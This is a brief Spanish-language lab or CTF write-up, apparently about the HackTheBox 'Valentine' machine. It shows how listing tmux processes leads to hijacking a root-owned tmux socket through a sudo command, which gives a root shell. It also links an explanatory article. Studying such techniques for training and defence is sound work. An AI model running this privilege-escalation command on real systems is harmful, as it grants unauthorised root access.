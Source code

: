 [Articulo que explica la vulnerabilidad](https://int0x33.medium.com/day-69-hijacking-tmux-sessions-2-priv-esc-f05893c4ded0)

# Enumeracion
Listar procesos activos
   ```bash
   ps aux | grep tmux
   ```
   ![[Valentine15.png]]


# Explotacion 
Ejecucion del comando que nos va a dar una shell como si fueramos root
[[ps faux y ps -eo]]
   ```bash
   sudo /usr/bin/tmux -S /.devs/dev_sess
   ```




